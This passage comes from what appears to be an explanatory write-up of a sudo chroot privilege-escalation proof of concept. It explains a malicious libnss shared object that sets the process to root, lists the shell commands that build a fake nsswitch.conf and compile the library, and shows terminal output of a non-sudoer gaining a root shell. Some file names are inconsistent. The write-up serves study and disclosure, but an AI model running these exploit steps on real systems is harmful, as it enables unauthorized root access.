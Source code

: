 Breaking down this shared object, it creates a constructor, which runs before `main` or runs on startup.  This constructor is simple - it sets the user ID and group ID of the running process to 0, aka "root."  It then moves into the root directory of the terminal, and executes the command that was requested in the originating `sudo`command.  That `${CMD_C_ESCAPED}` environment variable exists, I promise.  It's just a shortcut to make the command passed into the exploit script C-safe by escaping some special characters.

":monocle_face: But wait, this code would have to run as root; you can't just arbitrarily set your process to be root.  That would be a CRAZY security vulnerability."  Yep, you're right.  The way we do this is by creating our own `libnss` shared object, just like we talked about earlier.  What we'll do is make _our own_ version of `nsswitch.conf` where we direct all operations for retrieving user information on the system ("passwd" processes) to use our shared object implementation and store that in some other directory and build out our handler for the GNU Name Service to use.

``` bash
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot137.so.2 woot1337.c
```

And all that's left is to exploit it!

``` bash
sudo --chroot woot woot
```

> BONUS CONTENT - Did you happen to notice that our `libnss` object has a "/" in the name?  That's exploiting a bit of a bug.  Because of that "/" being there, the way that `libnss` will open this file will bypass looking for it in the top level library search path; instead, it'll just look for it locally in the context of our `chroot` jail.  This is another misimplementation in how `dlopen` is written that we're able to take advantage of.  It's not important to understand here, but it is important to how this PoC works.  

Remember that "file system jail" concept we talked about earlier?  This exploit essentially uses that concept so that when the name service looks for `nsswitch.conf` it gets _our_ version of `nsswitch.conf`.  Now, when `sudo` goes to execute any user/password-related function, it's going to be told to use _our_ shared object code which will give us a root shell.  The actual command doesn't matter because the process doesn't get to that point.  Hence the `sudo -R woot woot` works - that "woot" command doesn't exist and yet we get a shell without the process caring at all.  That "woot" command could be anything you want.

Package all of this up in a nice little bash script for ease of use and.....

``` text
pwn@ubuntu:~$ sudo -i
Password: 
pwn is not in the sudoers file.
pwn@ubuntu:~$ sh ./sudo-chwoot.sh 
woot!
root@ubuntu:/# whoami
root
```

:boom: We are now root from a user who was _not_ even in the `sudoers` file to begin with!

## The Fix
